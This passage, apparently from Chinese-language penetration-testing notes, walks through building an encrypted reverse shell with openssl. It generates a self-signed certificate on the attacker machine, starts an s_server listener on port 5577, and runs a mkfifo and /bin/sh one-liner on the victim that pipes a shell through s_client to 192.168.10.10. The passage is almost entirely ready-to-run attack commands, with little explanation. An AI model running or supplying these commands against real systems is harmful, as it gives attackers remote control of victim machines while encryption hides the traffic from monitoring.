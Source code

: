 <img src=".\图片\Snipaste_2023-01-06_10-48-28.png" alt="Snipaste_2023-01-06_10-48-28" style="zoom:60%;" />

### 加密后

在我们的攻击端生成自签名证书 ，此时用的是 Ubuntu

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

在攻击机上监听指定端口，这里我选择 5577

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 5577
```

在受害机上执行shell反弹命令 (注意修改ip和端口) ，使用的是 kali

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.10.10:5577 > /tmp/s;
```

反弹 shell 成功
